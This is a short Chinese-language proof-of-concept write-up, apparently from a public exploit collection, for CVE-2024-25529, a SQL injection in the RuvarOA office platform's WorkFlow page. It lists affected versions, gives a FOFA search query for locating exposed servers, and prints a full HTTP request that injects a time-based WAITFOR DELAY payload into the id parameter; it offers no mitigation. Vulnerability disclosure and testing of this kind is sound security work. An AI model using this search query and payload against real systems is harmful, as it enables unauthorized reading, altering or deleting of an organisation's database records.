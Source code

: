 # CVE-2024-25529 RuvarOA协同办公平台 SQL注入

## 1.漏洞描述

RuvarOA协同办公平台 是由广州市璐华计算机科技有限公司开发，璐华RuvarOA协同办公平台不但继承了传统OA产品的所有优秀特性，并在此基础上增加了更齐全的功能模块，极大地扩大了应用的覆盖面。

RuvarOA协同办公平台 WorkFlow接口处存在SQL注入，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。

## 2.影响版本

RuvarOA v6.01 RuvarOA v12.01

## 3.搜索语法

```java
fofa：body="txt_admin_key"
```

## 4.漏洞复现

POC

```java
GET /WorkFlow/wf_office_file_history_show.aspx?id=1%27WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: micromessenger Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Iron Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="115", "Chromium";v="115", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close
```

![image-20240615173010529](D:\py\POC\CVE-2024-25529 RuvarOA协同办公平台 SQL注入\image-20240615173010529.png)